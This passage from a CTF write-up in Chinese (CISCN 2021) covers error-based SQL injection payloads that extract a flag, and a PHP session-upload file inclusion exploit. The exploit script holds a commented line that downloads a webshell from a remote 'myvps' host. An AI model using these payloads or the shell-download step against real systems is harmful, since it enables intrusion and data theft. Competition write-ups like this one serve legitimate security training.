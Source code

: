 ```python
        text = r.text
        if 'login<' in r.text:
            flag += chr(char-1)
            print(flag)
            break
```

到最后卡住了，换了无列名注入报错爆列名，然后直接报错注入：

![image-20210517175932809](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210517175941.png)

![](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210522220543.png)

```sql
admin')||extractvalue(1,concat(0x7e,(select * from (select * from flag as a join (select * from flag)b using(id,no))c)))#
//Duplicate column name 'e0f1d955-bbba-43c3-b078-a81b3fc4bf28'

admin')||(extractvalue(1,concat(0x7e,(select `e0f1d955-bbba-43c3-b078-a81b3fc4bf28` from security.flag),0x7e)))#
//XPATH syntax error: '~CISCN{JgHhs-jpd52-iJk4O-MGPDz-d'

admin')||(extractvalue(1,concat(0x7e,substr((select `e0f1d955-bbba-43c3-b078-a81b3fc4bf28` from security.flag),32,50),0x7e)))#
//XPATH syntax error: '~uFWI-}~'
```

CISCN{JgHhs-jpd52-iJk4O-MGPDz-duFWI-}

### middle_source

首页给了任意文件包含

扫目录得到`.listing`，得到`you_can_seeeeeeee_me.php`是phpinfo页面

有了phpinfo可以尝试直接向phpinfo页面传文件加垃圾数据，同时从phpinfo获取临时文件名进行文件包含，或者利用`session.upload_progress`进行session文件包含

前者尝试无效果

从phpinfo得到了session保存路径：`/var/lib/php/sessions/fccecfeaje/`

尝试发现可以出网，虽然ban了很多函数，但是可以直接用copy或file_get_contents下载shell

在`/etc/acfffacfch/iabhcgedde/facafcfjgf/adeejdbegg/fdceiadhce/fl444444g`发现flag

![](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210522220552.png)

exp：

```python
import requests
import threading

#file_content = '<?php print_r(scandir("/etc"));?>'
#file_content = '<?php copy("http://myvps/s.txt","/tmp/leon.php");echo "666666666";?>'
#s.txt是shell一句话
file_content = '<?php var_dump(file_get_contents("/etc/acfffacfch/iabhcgedde/facafcfjgf/adeejdbegg/fdceiadhce/fl444444g"));?>'

url='http://124.70.35.238:23579/'
r=requests.session()

def POST():
    while True:
        file={
            "upload":('<?php echo 999;?>', file_content, 'image/jpeg')
        }
```